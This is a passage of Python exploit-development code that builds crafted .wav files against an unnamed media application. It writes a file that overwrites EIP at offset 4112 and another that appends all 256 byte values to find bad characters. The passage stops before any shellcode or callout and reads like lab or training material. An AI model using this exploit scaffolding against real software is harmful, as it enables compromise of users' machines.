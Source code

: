 ```python
                  "utf-8")

  with open('pattern.wav', 'wb') as f:
        f.write(payload)

eip_offset()

def eip_control():
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip
    
    with open('control.wav', 'wb') as f:
        f.write(payload)

eip_control()

def bad_chars():
    all_chars = bytes([
	    0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
		0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
	    0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
	    0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
	    0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
	    0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
	    0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
	    0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F,
	    0x40, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47,
	    0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D, 0x4E, 0x4F,
	    0x50, 0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57,
	    0x58, 0x59, 0x5A, 0x5B, 0x5C, 0x5D, 0x5E, 0x5F,
	    0x60, 0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67,
	    0x68, 0x69, 0x6A, 0x6B, 0x6C, 0x6D, 0x6E, 0x6F,
	    0x70, 0x71, 0x72, 0x73, 0x74, 0x75, 0x76, 0x77,
	    0x78, 0x79, 0x7A, 0x7B, 0x7C, 0x7D, 0x7E, 0x7F,
	    0x80, 0x81, 0x82, 0x83, 0x84, 0x85, 0x86, 0x87,
	    0x88, 0x89, 0x8A, 0x8B, 0x8C, 0x8D, 0x8E, 0x8F,
	    0x90, 0x91, 0x92, 0x93, 0x94, 0x95, 0x96, 0x97,
	    0x98, 0x99, 0x9A, 0x9B, 0x9C, 0x9D, 0x9E, 0x9F,
	    0xA0, 0xA1, 0xA2, 0xA3, 0xA4, 0xA5, 0xA6, 0xA7,
	    0xA8, 0xA9, 0xAA, 0xAB, 0xAC, 0xAD, 0xAE, 0xAF,
	    0xB0, 0xB1, 0xB2, 0xB3, 0xB4, 0xB5, 0xB6, 0xB7,
	    0xB8, 0xB9, 0xBA, 0xBB, 0xBC, 0xBD, 0xBE, 0xBF,
	    0xC0, 0xC1, 0xC2, 0xC3, 0xC4, 0xC5, 0xC6, 0xC7,
	    0xC8, 0xC9, 0xCA, 0xCB, 0xCC, 0xCD, 0xCE, 0xCF,
	    0xD0, 0xD1, 0xD2, 0xD3, 0xD4, 0xD5, 0xD6, 0xD7,
	    0xD8, 0xD9, 0xDA, 0xDB, 0xDC, 0xDD, 0xDE, 0xDF,
	    0xE0, 0xE1, 0xE2, 0xE3, 0xE4, 0xE5, 0xE6, 0xE7,
	    0xE8, 0xE9, 0xEA, 0xEB, 0xEC, 0xED, 0xEE, 0xEF,
	    0xF0, 0xF1, 0xF2, 0xF3, 0xF4, 0xF5, 0xF6, 0xF7,
	    0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
    ])
    
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip + all_chars
    
    with open('chars.wav', 'wb') as f:
        f.write(payload)

bad_chars()
```
